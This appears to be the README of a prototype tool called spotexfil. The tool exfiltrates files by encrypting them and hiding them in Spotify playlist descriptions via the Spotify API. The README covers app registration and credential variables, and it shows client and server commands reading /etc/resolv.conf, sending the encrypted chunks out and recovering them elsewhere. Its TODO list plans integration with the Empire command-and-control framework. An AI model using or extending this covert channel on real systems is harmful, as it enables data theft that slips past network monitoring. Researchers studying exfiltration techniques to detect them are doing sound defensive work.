 # spotexfil (status: prototype)
A simple attempt to exfiltrate data using spotify API, 300 bytes at a time.

We can read a mini file (payload) and encode it inside a playlist description field via Spotify API.
Really MVP/prototype, not meant for large files.

# Pre-requisite
You need to register the app with Spotiy at https://developer.spotify.com/dashboard/

Then, after using the first time, the following environment variables should be set such as:
```
SPOTIFY_USERNAME=YourSpotifyUsername
SPOTIFY_CLIENT_SECRET=0de477a0733545a1a40e2e35d7b9d897
SPOTIFY_CLIENT_ID=3a292c314830b8611963ac4fb2f29da1b
SPOTIFY_REDIRECTURI=http://localhost/callback
```

# Usage

Using /etc/resolv.conf as payload:

```
$ ./spotexfil_client.py -f /etc/resolv.conf
[*] Data cleared
"0614b19d74be941ac3a89fdcbc33d3ebc62cb996f574a1b3cb95867c1db90b87ca154ad38151a25e09d2b9429f66ad8d00afb005b1e257f89c27b030ca46ae3b6856574d3bc40476fd3c0703618f4ac4810dc59b7797dc1a873252de1017fd12205e99458eb0f40c4fa98db36cc972ec3c7f008541450e8269679fd6e54cf09ac432e002fdfb3be3ae85fa89373e0ad3c68af7bde50
	[*] Creating inpayloadwetrust0
b5118c7d5947d2f1a467069e3f2796b3859015741622226f58609dcee056954b42520dfeb8d09c1280fffb1e2c7178c3d46e0203b6284e14d08868e75bef729b939fee6e4edcd0e463f5b2797b40640eabf8940bfb8e82bde4bed531310b6e496066bad02a1a7bc4c854ef070a14166a6cd55f0c8f17c9c9ffaf79bef38c3dfaf6fd9d0ef1baf62589aad3c39bafd768cbe7ee48a10b
	[*] Creating inpayloadwetrust300
728a9be5127a45b5aa4b1a6f6cbd216f1e0ae80d843ad2f15a07ae721773eb529ea64963557196ba8bd29eca370ff3a8ae6d32f67251edb078619a4d97db332ccf432402a3a45b5675b82e6f8"
	[*] Creating inpayloadwetrust600
[*] Data encoded and sent
```

Receiving from a far:

$ ./spotexfil_server.py -r
```
#
# macOS Notice
#
# This file is not consulted for DNS hostname resolution, address
# resolution, or the DNS query routing mechanism used by most
# processes on this system.
#
# To view the DNS configuration used by this system, use:
#   scutil --dns
#
# SEE ALSO
#   dns-sd(1), scutil(8)
#
# This file is automatically generated.
#
domain nyc.rr.com
nameserver 172.16.0.1
```

# TODO
* Working on Empire C2C module
* move from XXTEA crappy easy crypto to asymmetric (working in separate branch)
* peer-review from a real Python developper would help :P
* build chat system, adding a realtime listener component into spotexfil_server.py

